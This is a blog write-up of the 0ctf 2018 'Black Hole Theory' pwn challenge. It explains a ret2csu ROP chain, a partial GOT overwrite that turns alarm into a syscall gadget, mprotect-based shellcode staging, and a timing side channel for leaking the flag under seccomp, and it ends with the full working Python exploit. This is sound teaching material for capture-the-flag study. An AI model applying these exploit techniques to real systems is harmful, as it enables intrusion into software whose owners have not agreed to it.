 ```yaml
---
layout: post
title: 0ctf 2018 - Black Hole Theory
description: "Writeup for the 2018 0ctf pwn challenge Black Hole Theory"
modified: 2018-04-08
tags: [writeup, ctf, side channel, asm, pwn]
comments: true
share: true
categories: [writeups]
---
```


The challenge is a simple binary that first sets a few seccomp rules to disable all the syscalls besides open, close, read, mprotect and exit.
Then it proceeds to read 0x100 bytes into a stack variable that serves as an obvious stack overrun. To further complicate issues the binary is executed by a wrapper, that reads 0x800 bytes and passes it to the program on its stdin, in one burst, while it also closes the stdout pipe.

The binary is not compiled as a PIC and full-relro is not turned on, this enables the use of the [return to CSU](https://www.blackhat.com/docs/asia-18/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) primitive (also suggested by the hint).
The primitive allows us to call a pointer at an arbitrary location in the address space with the first three parameters controlled.
Since there is no way to leak addresses from the binary (stdout closed, no write syscall) we must use that is already there.
This very simple binary only uses two libc functions (alarm and read), the address of which are present in the `.got.plt` section, at a known location.

With these primitives the following exploit flow seems possible:

* Use the CSU primitive to call the `read` libc function and use it to overwrite the LSB of the `alarm` function pointer
* By setting the `alarm` address 5 bytes higher, the `alarm` function is turned into an arbitrary syscall primitive (the set `rax` part is skipped)
* Since `rax` cannot be controlled by ROP gadgets the return value of read must be used to set it. Read 10 bytes to somewhere to set `rax` to 10 which is `mprotect`'s syscall nr.
* Call `mprotect` to turn the `.bss` into an `rwx` region
* Read an arbitrary shell code to this new `rwx` region and jump to it
* The shell code can read the flag and use a timing channel to leak its bits. In each execution it can crash and close the connection or go into an infinite loop based on the next bit of the flag. The difference in the time of the connection interrupt can be detected at receiver side, thus the flag can be reconstructed.

There is only a minor technical challenge while executing this plan. The size of the original payload is limited to 0x100-40 bytes which is enough to call the CSU primitive only three times. This can be alleviated by breaking up the first part of the exploit into multiple stages. Alternatively, with a bit of optimisation three calls can be enough to read and execute the shellcode:

* The original `read` to overwrite the LSB of `alarm` can be 10 bytes long, setting up for the mprotect call.
* Call `mprotect`
* Call `read`, to read the address of the shellcode right after the `read` pointer in `.got.plt` and read the shell code as well.

If the `rbp` is set to more than one during the CSU call, the primitive consecutively executes multiple functions from the provided location. Using this the third CSU primitive will execute the shellcode that it read in. At this point the `.bss` would have the following layout:

* random `.got.plt` entries
* AAAAAAAAA - from using 10 bytes to overwrite the `alarm` LSB
* modified address of `alarm`
* address of `read`
* address of the shell code (next address)
* the shell code

This exploit yields the following flag (after considerable time):

```
flag{even_black_holes_leak_information_by_Hawking_radiation}
```

The complete exploit:
```python
#!/home/gym/.venvs/ctf/bin/python2
import os
import sys
import time
from pwn import *
from hashlib import sha256
sys.path.append(os.path.expanduser('~/ctf/magicpwn'))
import magicpwn

c = None
m = None

def do_pow():
    chal = c.recv(16)
    for i in xrange(0xffffffff):
        if sha256(chal + p32(i)).hexdigest().startswith('00000'):
            c.send(p32(i))
            c.recv(1)
            return
    raise ValueError("Failed to solve PoW")

def csu_call(rdi, rsi, rdx, rip, rbp=1):
    CSU1 = 0x400A4A
    # rbx 0
    # rbp 1
    # r12 ptr to callq
    # rdx
    # rsi
    # edi
    CSU2 = 0x400A30
    rc = p64(CSU1)
    rc += p64(0)
    rc += p64(rbp)
    rc += p64(rip)
    rc += p64(rdx)
    rc += p64(rsi)
    rc += p64(rdi)
    rc += p64(CSU2)
    return rc

def try_one(c, target, idx, bit):
    CALL_READ = 0x4009C0
    POP_RBP = 0x400808
    ADD_EBX_ESI = 0x400829

    ALARM_GOT = 0x601040
    READ_GOT = 0x601048
    DATA_SEG = 0x601000
    DATA = ALARM_GOT+8
    if target == 'remote':
        do_pow()

    shell_size = 0x800 - (0x100 - 0x10)

    # overwrite lsb of alarm (make it syscall)
    rop = csu_call(0, ALARM_GOT-9, 10, READ_GOT)
    # return val 10 is sycall number
    rop += csu_call(DATA_SEG, 0x1000, 7, ALARM_GOT)
    # return val 0 is syscall number + call the read location
    rop += csu_call(0, DATA, shell_size, ALARM_GOT, 2)
    #rop += p64(DATA)
    payload = 'A'*40 + rop
    c.send(payload + 'B' * (0x100 - len(payload)))

    if m.target == 'remote':
        c.send('C'*9+'\x85')
    else:
        c.send('C'*9+'\xe5')

    defs = {'IDX':str(idx), 'BITNR':str(bit)}
    shell = magicpwn.compile_shell("./shell.c", defs)
    if m.target == 'remote':
        flag = "flag\x00"
    else:
        flag = "/ctf/flag.txt\x00"

    pl = p64(DATA+8) + shell + flag
    c.send(pl + 'E' * (shell_size - len(pl)))

    if not c.connected():
        print("Flag location: {} incorrect".format(flag))
        raise ValueError("Failfish")
    time.sleep(2)
    if not c.connected():
        return 1
    try:
        c.send('a')
    except:
        return 1
    return 0


gdbs=[
    #'b *0x4009c7',
    #'b *0x400a39', # call in csu
    #'b *0x601058', # jump to payload
    #'b *0x400863',
    'c',
        ]
bp =[

        ]
if __name__ == "__main__":
    target = 'remote'
    context.log_level = logging.ERROR
    m = magicpwn.Magic(target, 'none', aslr=True, libc='local')
    flag = ""
    for i in range(42, 200):
        nextchr = 0
        for j in range(7):
            c = m.start(cmds=gdbs, bp=bp, ida=False)
            val = try_one(c, target, i, j)
            print("[#] CHR: {} BIT: {} VAL: {}".format(i, j, val))
            if val == 1:
                nextchr += 1<<j
        flag += chr(nextchr)
        print("[#] CHR {}: {} Flag: {}".format(i, chr(nextchr), flag))
        if chr(nextchr) == "}":
            sys.exit(0)
```
 
